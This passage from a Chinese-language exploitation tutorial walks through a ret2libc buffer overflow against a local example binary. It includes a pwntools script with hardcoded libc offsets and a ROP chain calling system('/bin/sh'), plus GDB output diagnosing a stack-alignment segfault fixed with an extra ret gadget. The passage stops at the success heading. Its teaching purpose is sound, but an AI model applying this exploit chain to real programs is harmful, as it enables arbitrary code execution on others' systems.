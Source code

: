 根据前面的总结，设置好 LibC 的基地址，已经需要使用 LibC 中元素的偏移，再构造字符填满缓冲区变量到调用函数栈底指针寄存器的位置，然后设置利用链，使之调用`system`函数。

```
import os
import pwn
 
pwn.context.clear()
pwn.context.update(
    arch = 'amd64', os = 'linux', log_level = 'debug',
)
 
libc_base = 0x7ffff7db3000
system_offset = 0x50f10
sh_str_offset = 0x1aae28
ret_offset = 0xfd8c5
pop_rdi_ret_offset = 0xfd8c4
exit_offset = 0x3f050
 
payload = b'A' * (0xc + 0x8)
payload += pwn.p64(libc_base + pop_rdi_ret_offset)
payload += pwn.p64(libc_base + sh_str_offset)
payload += pwn.p64(libc_base + system_offset)
 
conn = pwn.process("./ret2libc_example")
 
conn.send(payload)
conn.interactive()

```

### 3.4.1 拦路虎 - 段错误

当执行`exploit`后，会发现并没有弹出 Shell，将 GDB 挂到程序上，会发现程序出现了段错误，段错误一般都是访问内存错误。

```
Program received signal SIGSEGV, Segmentation fault.
 
(gdb) x /i $rip
=> 0x7ffff7e03bf4:      movaps %xmm0,0x50(%rsp)
(gdb) p $rsp
$1 = (void *) 0x7fffffffdb08
(gdb) p $rsp+0x50
$2 = (void *) 0x7fffffffdb58

```

查看当前程序执行，在指令中操作的内存地址是`0x50(%rsp)`，通过查阅资料了解到`movaps`中`a`代表目标地址需要和 16 字节对齐，而此时的`0x50(%rsp)`是不能被 16 整除的，所以导致段错误。

16 的 16 进制表示为 0x10，所以内存地址的最后 1 位必须是 0，上方地址的最后 1 位是 0x8，为了让地址与 16 字节对齐，需要让原地址加 8 或减 8。在上方操作`rsp`地址的指令为`pop`和`ret`，它们都让`rsp`的地址不断递增，因此这里可以考虑再次利用它们让`rsp`的地址加 8。

增加 1 条指令再调用`system`函数，对于这种需求显然`ret`指令是最合适的。

3.5 成功 PWN
----------
